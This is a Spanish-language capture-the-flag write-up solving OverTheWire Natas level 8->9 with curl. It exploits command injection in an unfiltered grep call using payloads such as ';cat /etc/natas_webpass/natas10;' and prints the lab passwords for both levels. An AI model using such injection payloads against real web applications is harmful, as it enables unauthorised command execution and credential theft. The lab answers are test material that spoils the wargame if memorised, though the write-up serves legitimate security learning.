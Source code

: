 ```yaml
---
title: OverTheWire - Natas 8 -> 9 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 8 -> 9 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas8->9-1.png)

Vemos que necesitamos ingresar un valor para buscar, y su código fuente es encuentra en `index-source.html`.

![](/images/images-otw-natas/natas8->9-2.png)

Vamos al archivo pero no se puede leer nada.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html
```

![](/images/images-otw-natas/natas8->9-3.png)

Solucionamos esto con la herramienta `html2text` que se puede instalar con `sudo apt install html2text`.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html | html2text
```

![](/images/images-otw-natas/natas8->9-4.png)

Observamos que se está ejecutando el comando grep contra el archivo dictionary.txt.

![](/images/images-otw-natas/natas8->9-5.png)

El input que ingresamos se guarda en la variable `$key` y se agrega al comando grep sin ningún filtro, por lo tanto, podremos ejecutar comandos.

![](/images/images-otw-natas/natas8->9-6.png)

Volvemos a la página principal y con el parámetro `-d` ingresamos los valores `needle=;ls` y `submit` que puede ser cualquier cosa. Usamos `;` para terminar el comando grep y `ls` para listar los archivos.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d 'needle=;ls&submit=hola'
```

![](/images/images-otw-natas/natas8->9-7.png)

Vemos el resultado del comando.

![](/images/images-otw-natas/natas8->9-8.png)

Ejecutamos el comando `cat` sobre el archivo que almacena la contraseña de natas10, pero nos muestra todo el archivo **dictionary.txt**.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10&submit=hola'
```

![](/images/images-otw-natas/natas8->9-9.png)

Esto lo solucionamos simplemente agregando un `;` al final del comando.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10;&submit=hola'
```

![](/images/images-otw-natas/natas8->9-10.png)

# Contraseña
---

`nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

---

## [Anterior](/level-7-8)
## [Siguiente](/level-9-10)